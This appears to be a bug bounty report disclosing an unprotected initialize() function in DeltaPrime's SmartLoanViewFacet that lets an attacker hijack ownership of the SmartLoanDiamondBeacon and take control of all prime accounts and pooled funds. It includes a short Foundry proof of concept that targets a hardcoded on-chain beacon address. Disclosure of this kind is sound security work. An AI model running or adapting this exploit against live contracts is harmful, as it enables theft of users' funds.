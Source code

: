 **Contract hijack/Missing initialize call in SmartLoamViewFacet.sol**
___

_Bug Severity: High_

_Target:_
https://github.com/DeltaPrimeLabs/deltaprime-primeloans

---

**Vulnerability Details:**

DeltaPrime maintains all users’ prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he can gain control over all users' Prime accounts.

I did indeed discover such a vulnerability. this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.

---

**Vulnerable Code:**

https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/dev/main/contracts/facets/SmartLoanViewFacet.sol#L42

---
**Proof of concept (POC):**
---

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract DeltaPrimePoC is Test {
    address constant SmartLoanDiamondBeacon = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant maliciousOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4; // Put any attacker address

    function setUp() public {
        vm.createSelectFork(vm.envString("ARB_RPC_URL"), 234980496);
    }

    function test_Initialize_Targets() public {
           ISmartLoanDiamondBeacon(SmartLoanDiamondBeacon).initialize(maliciousOwner);
        }
    }

---

***PoC Output:***

![DeltaPrimePoCResult](https://github.com/user-attachments/assets/3436464d-6d50-4440-b657-2adb23f9dbb5)



